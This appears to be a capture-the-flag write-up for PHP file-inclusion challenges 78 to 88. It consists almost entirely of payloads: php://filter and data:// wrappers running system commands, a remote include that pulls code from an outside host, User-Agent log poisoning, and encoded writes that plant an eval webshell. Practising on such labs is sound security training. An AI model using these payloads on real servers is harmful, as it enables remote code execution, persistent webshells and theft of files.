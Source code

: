 78-php&http协议

```php
payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php

payload: ?file=php://input post:<?php system('tac flag.php');?>

payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>
```

79-data&http协议

```php
payload: ?file=data://text/plain,<?=system('tac flag.*');?>

payload: ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==

payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?> 
```

80 81-日志包含

```php
1、利用其他协议,如file,zlib等

2、利用日志记录UA特性包含执行

分析需文件名及带有php关键字放弃

故利用日志记录UA信息，UA带入代码

包含：/var/log/nginx/access.log
```

82-86-SESSION包含

```php
https://www.cnblogs.com/lnterpreter/p/14086164.html

https://www.cnblogs.com/echoDetected/p/13976405.html
```

87-php://filter/write&加密编码

```php
1、利用base64:
url编码2次：php://filter/write=convert.base64-decode/resource=123.php 

content=aaPD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==

2、利用凯撒13：
url编码2次：php://filter/write=string.rot13/resource=2.php

content=<?cuc riny($_CBFG[1]);?>
```

88-data&base64协议
